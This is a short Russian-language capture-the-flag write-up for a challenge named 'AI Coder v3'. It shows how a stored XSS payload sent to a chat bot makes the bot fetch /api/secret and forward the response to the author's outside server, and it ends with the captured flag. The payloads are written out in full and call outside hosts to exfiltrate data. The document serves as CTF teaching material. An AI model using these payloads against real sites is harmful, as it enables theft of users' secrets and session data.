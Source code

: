 # AI Coder v3
Изучаем исходный код страницы, видим home.js. В нем видим /api/secret.
Делаем запрос - 403.
Пробуем отправить в сообщении боту ссылку на коллаборатор:
``` html
<img src='' onerror="fetch('http://collab.burp/')">
```
Получаем запрос. Значит нужно выпонить выполнить xss атаку так, чтобы при открытии сообщения ботом выполнился запрос к /api/secret, после чего второй запрос отправил ответ первого мне.

Готовим payload:
```html
<img src="" onerror="
	var req = new XMLHttpRequest();
	req.open('GET', '/api/secret');
	req.send();
	req.onreadystatechange = function() {
	if (req.readyState == 4) {
		fetch('http://31.41.99.36:4221/'+req.response);
	}};
	req.send();">
```

Отправляем payload в сообщении боту, получаем запрос на свой сервер:
`GET /%7B%22message%22:%22deteact%7Bf6227606ad71f45d47112d3e5fabf15d%7D%22%7D HTTP/1.1`

Флаг - deteact{f6227606ad71f45d47112d3e5fabf15d}